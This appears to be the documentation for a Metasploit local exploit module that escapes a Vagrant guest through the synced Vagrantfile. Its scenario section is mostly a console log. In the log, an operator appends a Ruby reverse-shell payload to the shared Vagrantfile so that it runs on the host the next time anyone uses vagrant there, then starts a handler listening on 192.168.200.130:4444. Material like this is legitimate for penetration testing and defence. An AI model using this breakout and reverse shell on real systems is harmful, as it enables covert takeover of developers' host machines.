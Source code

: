 
## Options

### VAGRANTFILE_PATH

Path to `Vagrantfile` (leave blank to auto detect).


## Scenarios

### hashicorp/bionic64 guest virtual machine in Vagrant 2.3.1 with VirtualBox 6.1 running on Ubuntu 22.04.1

```
msf6 > sessions -i 1 -C sysinfo
[*] Running 'sysinfo' on meterpreter session 1 (::1)
Computer     : vagrant.vm
OS           : Ubuntu 18.04 (Linux 4.15.0-58-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
msf6 > sessions -i 1 -C getuid
[*] Running 'getuid' on meterpreter session 1 (::1)
Server username: vagrant
msf6 > use exploit/multi/local/vagrant_synced_folder_vagrantfile_breakout 
[*] Using configured payload ruby/shell_reverse_tcp
msf6 exploit(multi/local/vagrant_synced_folder_vagrantfile_breakout) > set session 1
session => 1
msf6 exploit(multi/local/vagrant_synced_folder_vagrantfile_breakout) > set lhost 192.168.200.130 
lhost => 192.168.200.130
msf6 exploit(multi/local/vagrant_synced_folder_vagrantfile_breakout) > set lport 4444
lport => 4444
msf6 exploit(multi/local/vagrant_synced_folder_vagrantfile_breakout) > check

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: windows
[*] The service is running, but could not be validated. Could not verify if C:\vagrant\Vagrantfile is writable.
msf6 exploit(multi/local/vagrant_synced_folder_vagrantfile_breakout) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: windows
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Could not verify if C:\vagrant\Vagrantfile is writable.
[*] Appending payload (516 bytes) to C:\vagrant\Vagrantfile ...
[*] Payload appended to C:\vagrant\Vagrantfile
[*] The payload will be executed when a user runs any vagrant command from within the project directory on the host system.
[!] This module requires manual removal of the payload from the project Vagrantfile: C:\vagrant\Vagrantfile
msf6 exploit(multi/local/vagrant_synced_folder_vagrantfile_breakout) > use exploit/multi/handler 
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(multi/handler) > set payload ruby/shell_reverse_tcp
payload => ruby/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.200.130
lhost => 192.168.200.130
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run -jz
[*] Exploit running as background job 2.
[*] Exploit completed, but no session was created.

```